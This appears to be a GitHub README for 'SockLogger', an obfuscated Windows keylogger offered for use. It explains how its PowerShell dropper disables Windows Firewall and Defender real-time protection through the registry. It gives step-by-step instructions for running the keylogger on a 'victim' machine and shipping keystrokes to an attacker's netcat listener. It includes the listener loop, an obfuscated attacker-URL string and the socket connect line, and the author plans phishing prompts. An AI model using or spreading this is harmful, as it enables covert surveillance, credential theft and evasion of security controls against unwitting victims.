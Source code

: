 # SockLogger-
A creative way to evade 'Real time protection' and 'Windows Firewall' on windows, and obtain victim key-strokes by obfuscate keylogger and using 'nc' on remote machine. While trying looking for a way to make a simple keylogger, thought it would be interesting to make an obfuscate keylogger which will executed upon a running .ps1 with a fake message update about critical problems using powershell ofcourse. Started to make a script which will make 3 things, but first it must run as Administrator privilege;
1. Turn off the Windows Firewall Center.
2. enject a malicious DWORD on the registry which will make the real time protection going down upon a reboot.
3. Disable the real time protection.
4. Save keystrokes on the C:\Windows\System32 directory and obtain it using a python to open a server on the victim machine.
5. When the the SockLogger-Obfuscate.pyw gets execute [ Using .pyw for making it run in the background ], it's send the keystrokes of the victim to a remote machine [ Attacker ] on the other side by using the next command for listening in a loop: 'while true; do nc -lvnp [PORT]; done' [ in my case is PORT 8080 ].

![1](https://user-images.githubusercontent.com/90532971/196167464-4af42a03-e099-4c1f-ac87-d8f5b1b7dd4f.png)


# Usage
I made a test on my local windows 10 x64  machine [ VICTIM ] and it works perfectly.
1. git clone the reposotory.
2. cd SockLogger.
3. open a new terminal, press Ctrl+Shift+R and and terminal will split into two windows.
4. On window number 1 with the help of using a python, open a server to your local machine on the SockLogger folder.
5. On window number 1, use the on-top-command i wrote for a loop over and over.
6. Download the script on the victim machine [ Real time protection 'ON' || Windows Firewall 'ON' ]
7. after run it, wait for powershell window to gone. try typing something and head over to the attacker machine.
8. On window number 2, you should see the keystrokes you made [ On victim machine ]

![fff](https://user-images.githubusercontent.com/90532971/196167908-15377efc-6201-4da1-a5a9-b2ef8ae23fb3.png)

# Updates
This code is just a test while trying for a ways of not only using obfuscation ways, but also using a creative ways of bypass the windows defender/real time protection. still, i want to make a better code which not only contain a phishing message, but also a one that will actually restart the victim's computer, and when it load's again, the script will make another things reffers to protection and bypassing it. 
<h3>Note: Change Machine IP in the .ps1/pyw script under the lines:</h3>
<pre>
${MAc`H`iNe} = ("{5}{2}{0}{3}{1}{4}"-f '://','.0.0.21','tp','10',':','ht') - .ps1 script
</pre>
<pre>
m.connect(("10.0.0.21", 8080)) - .pyw script
</pre>
in my case, the .ps1 was 10.0.0.21 on port 80, and the listener was on port 8080.<br>
please, if you are having any problems, i would like to know. soon i will make a python script which will execute it all in one code. please notice that the .pyw script {python} saved at 'C:\Users\public' directory
